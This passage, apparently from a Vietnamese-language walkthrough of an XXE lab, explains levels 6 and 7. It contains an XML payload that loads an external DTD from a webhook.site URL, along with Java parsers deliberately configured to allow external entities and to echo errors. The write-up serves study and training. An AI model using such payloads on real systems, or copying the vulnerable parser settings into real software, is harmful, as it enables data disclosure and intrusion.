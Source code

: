 ```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY % remote SYSTEM "https://webhook.site/89cc7c4f-6ced-454a-9261-80bcea95157e">
    %remote;
]>
<root/>
```

![image](https://hackmd.io/_uploads/HyjjW1wnlg.png)

![image](https://hackmd.io/_uploads/By5abkPhll.png)

Thành công tạo ra lỗi kèm theo đó nó trả về dữ liệu ở đây là trường hợp Error Based.

#### Level 6:

```java 
   public String parseLevel6(String xml) {
        // This level has a specific configuration that reveals errors
        try {
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            // It allows external DTDs but might have issues resolving them, leading to errors
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", true);
            DocumentBuilder dBuilder = dbf.newDocumentBuilder();
            dBuilder.parse(new InputSource(new StringReader(xml)));
            return "Data processed.";
        } catch (Exception e) {
            // The error message itself is the vulnerability
            return "An exception occurred: " + e.toString();
        }
    }
```

Ta để ý rằng dòng `dbf.setFeature("http://xml.org/sax/features/external-general-entities", true` đã mở đường cho phép các lệnh như `SYSTEM` được chạy bình thường và điều này gây nên XXE injection. Nhưng ở đây nó có thay đổi ở đoạn trả về lỗi nó sẽ trả về thông điệp kèm theo lý do lỗi,

Tuy có thay đổi về code nhưng cách khai thác vẫn có lẽ sẽ không khác gì với level 6 vì ta vẫn có thể Error Based XXE được.

![image](https://hackmd.io/_uploads/ryPzNyv3ll.png)

Test lại với payload cũ thì phần error sẽ vẫn kèm theo nội dung của câu payload gắn trong webhook.

#### Level 7:

```java 
 public String parseSvg(String svgContent) {
        try {
            Document doc = createVulnerableBuilder().parse(new InputSource(new StringReader(svgContent)));
            // Simulate rendering the SVG, which might trigger the XXE
            return "SVG file processed. It contains " + doc.getElementsByTagName("*").getLength() + " elements.";
        } catch (Exception e) {
            return "Error processing SVG: " + e.getMessage();
        }
    }
```
